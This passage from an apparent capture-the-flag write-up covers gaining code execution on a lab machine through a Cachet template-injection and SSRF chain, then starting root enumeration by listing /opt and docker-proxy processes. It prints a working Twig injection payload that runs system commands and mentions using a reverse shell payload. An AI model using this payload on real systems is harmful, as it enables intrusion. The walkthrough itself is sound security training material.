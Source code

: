I’ll use the POC from the [CVE-2021-39165
writeup](https://www.leavesongs.com/PENETRATION/cachet-from-laravel-sqli-to-
bug-bounty.html):

    
    
    {{["id"]|filter("system")|join(",")}}
    

I’ll create a template named “id” with that as the body and click “Create”:

![image-20220629150159290](https://0xdfimages.gitlab.io/img/image-20220629150159290.png)

### Trigger SSRF

Only the API triggers the SSRF. I’ll use Repeater to send the request:

[![image-20220629150338651](https://0xdfimages.gitlab.io/img/image-20220629150338651.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20220629150338651.png)

That’s code execution. I can update this or create a new template with a
reverse shell payload, and it returns a shell in the container.

## Shell as root

### Enumeration

#### Filesystem

There’s nothing interesting in `/home/will`. Looking around the file system,
there’s two directories in `/opt`:

    
    
    will@catch:/opt$ ls
    containerd  mdm
    

There’s a bunch of `docker-proxy` processes in the `ps auxww` output:

    
    
    root        1403  0.0  0.0 548252   668 ?        Sl   Jun19   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6000 -container-ip 172.17.0.2 -container-port 80
    root        1565  0.0  0.0 400788   484 ?        Sl   Jun19   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6001 -container-ip 172.17.0.3 -container-port 80
    root        1787  0.0  0.0 548252   472 ?        Sl   Jun19   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6002 -container-ip 172.17.0.4 -container-port 80
    root        2715  0.0  0.0 400788   448 ?        Sl   Jun19   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6003 -container-ip 172.17.0.5 -container-port 80
    root        3344  0.0  0.0 400788   504 ?        Sl   Jun19   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6004 -container-ip 172.17.0.6 -container-port 80
    root        3828  0.0  0.0 548252   376 ?        Sl   Jun19   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6005 -container-ip 172.17.0.7 -container-port 80
    root        4551  0.0  0.0 548252   400 ?        Sl   Jun19   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6006 -container-ip 172.17.0.8 -container-port 80
    root        4899  0.0  0.0 400788   496 ?        Sl   Jun19   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6007 -container-ip 172.17.0.9 -container-port 80
    root        5585  0.0  0.0 548252   484 ?        Sl   Jun19   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6008 -container-ip 172.17.0.10 -container-port 80
    root        6438  0.0  0.0 474520   408 ?        Sl   Jun19   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6009 -container-ip 172.17.0.11 -container-port 80
    root        6989  0.0  0.0 400788   404 ?        Sl   Jun19   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6010 -container-ip 172.17.0.12 -container-port 80
    root        7544  0.0  0.0 474520   496 ?        Sl   Jun19   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6011 -container-ip 172.17.0.13 -container-port 80
    root        8026  0.0  0.0 474520   404 ?        Sl   Jun19   0:00 /usr/bin/docker-proxy -proto tcp -host-ip 172.17.0.1 -host-port 6012 -container-ip 172.17.0.14 -container-port 80